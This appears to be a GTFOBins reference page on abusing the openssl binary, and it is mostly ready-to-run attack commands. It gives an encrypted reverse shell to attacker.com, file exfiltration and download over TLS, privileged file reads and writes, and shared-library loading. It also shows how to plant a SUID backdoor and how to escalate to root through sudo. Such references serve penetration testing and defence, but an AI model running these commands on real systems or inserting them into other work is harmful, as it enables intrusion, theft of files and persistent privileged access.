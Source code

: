 # GTFOBin: openssl

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

To receive the shell run the following on the attacker box:

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

```

Communication between attacker and target will be encrypted.

```
RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```

## File upload

It can exfiltrate files on the network.

To collect the file run the following on the attacker box:

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save

```

Send a local file via TCP. Transmission will be encrypted.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
```

## File download

It can download remote files.

To send the file run the following on the attacker box:

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send

```

Fetch a file from a TCP port, transmission will be encrypted.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
echo DATA | openssl enc -out "$LFILE"
```

```
LFILE=file_to_write
TF=$(mktemp)
echo "DATA" > $TF
openssl enc -in "$TF" -out "$LFILE"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
openssl enc -in "$LFILE"
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
openssl req -engine ./lib.so
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

To receive the shell run the following on the attacker box:

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

```

Communication between attacker and target will be encrypted.

```
sudo install -m =xs $(which openssl) .

RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```

```
sudo install -m =xs $(which openssl) .

LFILE=file_to_write
echo DATA | openssl enc -out "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

To receive the shell run the following on the attacker box:

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

```

Communication between attacker and target will be encrypted.

```
RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```